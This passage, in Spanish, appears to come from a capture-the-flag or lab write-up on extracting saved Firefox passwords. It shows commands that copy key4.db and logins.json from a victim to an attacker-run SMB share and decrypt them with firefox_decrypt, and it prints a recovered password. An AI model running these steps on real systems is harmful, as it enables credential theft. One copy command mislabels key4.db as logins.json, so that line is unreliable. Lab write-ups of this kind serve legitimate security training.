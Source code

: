 En el siguiente post puedes encontrar mas informacion de como explotarlo [dump firefox passwords with firepwd and firefox_decrypt](https://medium.com/@s12deff/dump-firefox-passwords-with-firepwd-and-firefox-decrypt-65350fd74503)

Por lo que se necesita los archivos de key4.db y logins.json. Para poder copiarnos a nuestra maquina iniciaremos un servidor `smb`, para luego agregar como partición mas de la maquina victima 

```php
❯ impacket-smbserver smbFolder $(pwd) -smb2support
net use z \\10.9.115.196\smbFolder
```

Luego copiaremos los archivos al recurso compartido que iniciamos

```php
copy key4.db \\10.9.115.196\smbFolder\key4.db
copy key4.db \\10.9.115.196\smbFolder\logins.json
```

#### firefox_decrypt

Para el caso de necesiremos otros archivos mas que los podemos encontrar en el directorio 

![20240221213624.png](20240221213624.png)

Luego obtendremos las credenciales

```php
❯ python3 ../sploit/firefox_decrypt/firefox_decrypt.py .
2024-02-21 21:35:11,674 - WARNING - profile.ini not found in .
2024-02-21 21:35:11,674 - WARNING - Continuing and assuming '.' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

#### firepwd

En este caso solo necesitamos los dos archivos que descargamos primero.
